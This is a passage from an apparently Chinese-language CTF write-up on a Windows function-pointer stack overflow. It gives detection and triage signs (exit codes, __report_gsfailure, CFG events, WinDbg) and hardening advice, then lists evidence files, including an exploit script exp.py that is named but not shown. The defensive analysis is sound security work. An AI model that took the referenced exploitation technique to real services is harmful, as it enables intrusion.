- **检测与应急排查要点**（对应教学问答 Q5，并修正其把 `__report_gsfailure` 等同于"函数指针非法使用检测"的说法）：服务进程异常退出且异常码为 `0xC0000409`（`STATUS_STACK_BUFFER_OVERRUN`，`/GS` 拦截成功的典型痕迹）或 `0xC0000005`（访问违例，跳向未映射地址）；崩溃转储里可见 `__report_gsfailure` 与"**没有返回地址溢出痕迹**"并存（本题正是这类场景：Cookie 可能完好、栈上返回地址也没被改写，被改的是函数指针）；可疑的间接调用目标指向进程内**未被正常调用**的函数（如本题 `get_flag`）；CFG 违规事件（`MICROSOFT-WINDOWS-SECURITY-MITIGATION` 提供者）、ETW/PerfView 中异常的间接调用路径；一次性凭证在极短时间内被兑换。处置上应保留转储与进程内存镜像、用 WinDbg 做栈回溯并核对间接调用点、排查同主机同类服务的版本与补丁；修复回到"有界读取 + 不用可溢出的局部函数指针 + `/GS` + `/guard:cf` + `/DYNAMICBASE` + `/NXCOMPAT` + 最小权限"这条主线。

原始过程记录：`.local/process/6-3-ctf-process.md`；教学问答原文：`.local/process/6-3-qa-transcript.json`；选择题判定预登记：`.local/process/6-3-answers-rationale.md`；复现脚本与全部证据日志：`.local/process/6-3-scripts/`（`exp.py`：`raw` / `exploit` 两个正常用例 + `off68` / `badaddr` / `fill72` / `cookieonly` 四条失败对照；`pe_info.py`：PE 头、导出/导入表与关键指令；`render_term.py`：渲染稿生成；`mask_vmc_header.py` / `mask_qa_header.py`：两处脱敏；`files/challenge.exe`；`logs/` 原始输出与问答 SSE；`render/` 渲染源与复验裁剪图）。
